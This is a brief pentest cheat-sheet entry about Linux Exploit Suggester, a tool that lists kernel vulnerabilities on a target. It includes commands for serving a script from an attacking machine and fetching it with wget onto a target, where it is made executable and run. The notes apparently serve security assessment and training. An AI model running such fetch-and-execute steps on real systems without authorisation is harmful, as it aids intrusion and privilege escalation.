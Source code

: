 
## General

Linux Exploitation Suggester (LES) is a tool that checks the operating system (OS) and version of a machine and suggests potential kernel vulnerabilities that could be exploited. LES is typically used by security professionals to assess the security of a system and identify weaknesses that need to be addressed.

## Commands

```
# Attacking Machine
python3 -m http.server

# Target Machine
wget http://IP/Name.sh
chmod +x NAME.sh
./NAME.sh
```

- Check for exposure (Probability of success)


## Linux Exploit Suggester

**All Information** --->  https://github.com/mzet-/linux-exploit-suggester

<iframe src="https://github.com/mzet-/linux-exploit-suggester" width="100%" height="1300"></iframe>